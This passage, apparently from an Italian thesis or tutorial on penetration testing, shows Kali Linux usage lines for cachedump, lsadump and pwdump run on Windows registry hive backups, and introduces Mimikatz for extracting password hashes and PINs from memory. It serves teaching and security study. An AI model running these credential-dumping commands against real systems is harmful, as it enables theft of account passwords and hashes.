 Successivamente possiamo utilizzare tre tipi di attacchi :
\begin{itemize}
    \item cachedump -> scarica le credenziali memorizzate nella cache
          \begin{lstlisting}[ caption={Cachedump esempio}, style=javaScriptCode]
        root@kali:~# cachedump
                     usage: /usr/bin/cachedump <system hive> <security hive>
                     cachedump sys_backup.hiv sec_backup.hiv
    \end{lstlisting}
    \item lsadump -> scarica le credenziali LSA
          \begin{lstlisting}[ caption={Lsadump esempio}, style=javaScriptCode]
        root@kali:~# lsadump
                     usage: /usr/bin/lsadump <system hive> <security hive>
                     lsadump sys_backup.hiv sec_backup.hiv
    \end{lstlisting}
    \item pwdump -> scarica gli hash della password
          \begin{lstlisting}[ caption={Pwdump esempio}, style=javaScriptCode]
        root@kali:~# pwdump 
                     usage: /usr/bin/pwdump <system hive> <security hive>
                     pwdump sys_backup.hiv sec_backup.hiv 
    \end{lstlisting}
\end{itemize}

\subsection{MIMIKATZ}

Mimikatz\cite{MIMIKATZ}, creato da gentilkiwi , può essere utilizzato per estrarre hash di password e codici PIN dalla memoria di Windows.

Oggi, Windows Defender e i software di antivirus sono diventati sempre più efficaci nel rilevare le esecuzioni e le firme di Mimikatz.


\begin{figure}[h!]
    \centering
    \includegraphics[width=120mm]{Immagini/2/mimikatz.jpg}
    \caption{MIMIKATZ e antivirus}
    \label{fig:MIMIKATZ}
\end{figure}


